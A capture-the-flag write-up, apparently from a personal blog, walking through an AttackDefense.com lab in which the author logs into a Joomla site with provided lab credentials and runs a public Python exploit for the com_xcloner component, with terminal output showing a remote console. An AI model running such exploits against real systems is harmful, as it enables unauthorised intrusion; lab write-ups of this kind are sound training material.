 ```yaml
---
layout: post
title: AttackDefense.com [RCE] - Joomla com_xcloner Component
date: 2018-10-26 11:40 -0300
categories: [AttackDefense.com, ctf, writeups, RCE]
tags: [ writeups, CTF,  challange, AttackDefense.com]
---
```


![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-26 17-44-27.png)

### Mission

A version of Joomla com_xcloner Component is vulnerable to remote code execution attack. Your task is to find and exploit this vulnerability.

The following username and password may be used to explore the application and create regular users if required to exploit authenticated access vulnerabilities:

- User: admin        
- Password: password

Level difficulty: Easy

Category: Real World Webapps > Remote Code Execution

### Solution

First I was provided with the following Joomla website:

![Image of AttackDefense 2018](/uploads/adrce1-image4.png)

By using the username and password that were given to me at the start of this challenge, I have obtained access to the Joomla Control Panel:

![Image of AttackDefense 2018](/uploads/adrce1-image2.png)

There I was able to discover the installed version of Joomla Core:

![Image of AttackDefense 2018](/uploads/adrce1-image6.png)

Even if I tried multiple known remote code execution exploits for Joomla Core version 1.6.0, I was unable to get any command execution on the target website. Therefore, I took in account the following provided information: 

``` Joomla com_xcloner Component ```

This simple statement transmitted me to search on Google for exploits applicable to Joomla com_xcloner Component and to my surprise, I have obtained the following:

![Image of AttackDefense 2018](/uploads/adrce1-image5.png)

After downloading the exploit and running it against the target website, I have obtained the following:

```terminal
lucian@local:~/Downloads$ python 16246.py -t ie9i8y5pobnhaf1u7vhg8egbt.public2.attackdefenselabs.com:80 -d /joomla/

	| ----------------------------------------------------------------------------- |
	| Joomla component (com_xcloner-backupandrestore) remote code execution explo!t |
	| by mr_me - net-ninja.net ---------------------------------------------------- |

(+) Targeting http://ie9i8y5pobnhaf1u7vhg8egbt.public2.attackdefenselabs.com:80/joomla/
(!) Exploit working!
(+) Droping to remote console (q for quit)

lucian@ie9i8y5pobnhaf1u7vhg8egbt.public2.attackdefenselabs.com:80# 

```

The last thing was to prove that I have finished the challenge:

![Image of AttackDefense 2018](/uploads/adrce1-image3.png)

![Image of AttackDefense 2018](/uploads/adrce1-image1.png)
